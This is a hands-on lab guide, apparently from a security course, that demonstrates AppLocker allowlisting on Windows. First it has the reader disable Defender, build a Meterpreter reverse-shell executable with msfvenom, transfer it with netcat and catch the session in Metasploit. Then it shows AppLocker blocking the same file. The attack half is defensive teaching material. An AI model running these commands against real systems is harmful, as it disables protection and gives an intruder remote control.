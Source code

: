 
# AppLocker


Applocker Instructions:

Let’s see what happens when we do not have AppLocker running.  We will set up a simple backdoor and have it connect back to the Ubuntu system.  Remember, the goal is not to show how we can bypass EDR and Endpoint products.  It is to create a simple backdoor and have it connect back.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Thankfully, we have a couple of scripts that greatly simplify this process.  Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  



Please note that my adaptor is called eth0 and my IP address is 172.26.141.20.   Your IP Address and adapter name may be different.

Please note your IP address for the Linux system on a piece of paper:



Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the CLabs password is clabs.

/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`


/#`nc -l -p 2222 < TrustMe.exe`


Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)


Now, let’s download the malware and run it!

First, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to copy over and run the TrustMe.exe file.

`cd \tools`

`nc <Your Linux IP> 2222 > TrustMe.exe`

Take a deep breath.  Count to 5.  Then hit Ctrl+c to kill the connection.

Then, run it.

`TrustMe.exe`

It should look like this:

![](attachments/TrustMe.png)

Back at your Ubuntu prompt, you should have a metasploit session!

![](attachments/Clipboard_2020-06-12-12-55-11.png)


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments/Clipboard_2020-06-12-12-55-55.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments/Clipboard_2020-06-12-12-57-02.png)



In the right hand pane, you will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments/Clipboard_2020-06-12-12-58-38.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments/Clipboard_2020-06-12-12-59-57.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments/Clipboard_2020-06-12-13-00-24.png)

Next, we need to enforce the rules:


To do this you will need to select ApLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments/Clipboard_2020-06-23-10-45-07.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments/Clipboard_2020-06-12-13-00-54.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments/Clipboard_2020-06-12-13-01-27.png)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little wite user icon:

![](attachments/Clipboard_2020-06-15-09-00-39.png)

The password is ADHD.

![](attachments/Clipboard_2020-06-15-08-46-49.png)



Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![](attachments/Clipboard_2020-06-15-08-48-09.png)

You will see that most of the .exe files will generate an error.




Now, let's surf to your Linux system, download the malware and try to run it again.








You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.







